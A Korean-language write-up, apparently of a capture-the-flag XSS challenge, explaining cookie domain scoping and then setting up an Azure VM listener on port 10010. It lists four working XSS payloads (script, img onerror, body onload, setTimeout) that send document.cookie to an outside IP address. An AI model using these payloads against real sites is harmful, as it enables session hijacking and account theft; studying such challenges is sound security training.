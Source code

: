 `driver.get(localhost)`로 localhost 페이지를 로드 하는 이유는, 쿠키의 설정 원리 때문임

**쿠키 설정 원리**: 쿠키는 특정 도메인에서 생성. 해당 도메인에서만 사용 가능(localhost에서 생성됐으면 localhost에서만 사용 가능)

`target_url`에서 실행될, 내 웹 페이지로 쿠키를 유출하는 악성 스크립트를 작성하면 됨(XSS)

|

|

## Exploit 1: 내 웹 서버

### azure 설정

---

1. 네트워크 보안 그룹(NSG) - 인바운드 규칙 추가
2. 포트 설정(10010)
3. 프로토콜(TCP)

|

### VM 방화벽 설정

---

```
sudo ufw allow 10010/tcp
sudo ufw reload
```

|

### 코드 작성

---

```jsx
 // 코드 1
<script>location.href="http://20.41.120.97:10010/"+document.cookie</script>

 // 코드 2
<img src="asd" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>

 // 코드 3
<body onload="location.href='http://20.41.120.97:10010/'+document.cookie">

 // 코드 4
<script>setTimeout( () => {location.href="http://20.41.120.97:10010/"+document.cookie;}, 1000);</script>
```

**공통점:** 브라우저의 `location.href`속성을 사용해 지정된 URL(공격자의 웹사이트)로 리다이렉션, 그 과정에서 `document.cookie`로 쿠키 정보 수집
